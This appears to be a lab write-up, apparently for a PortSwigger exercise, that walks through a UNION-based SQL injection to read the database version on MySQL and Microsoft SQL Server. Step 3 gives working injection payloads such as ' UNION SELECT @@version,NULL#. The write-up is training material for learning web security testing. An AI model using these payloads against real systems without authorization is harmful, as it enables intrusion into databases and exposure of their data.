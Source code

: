 ```markdown
```
# SQL injection attack, querying the database type and version on MySQL and Microsoft
## Step 1

Check number of column

<img src="Portswigger-Writeups/Images/ps1.png" width="350" height="200">

## Step 2

Check in which column we can insert

<img src="Portswigger-Writeups/Images/ps2.png" width="350" height="200">

Here we are able to insert in both column

<img src="Portswigger-Writeups/Images/ps3.png" width="350" height="200">

## Step 3

Now we use this payload

' UNION SELECT @@version--

Modify query to

' UNION SELECT @@version,NULL#

Or

' UNION SELECT NULL,@@version#

Encode it to URL

<img src="Portswigger-Writeups/Images/ps4.png" width="350" height="200">

And we have the answer

<img src="Portswigger-Writeups/Images/ps5.png" width="350" height="200">

---
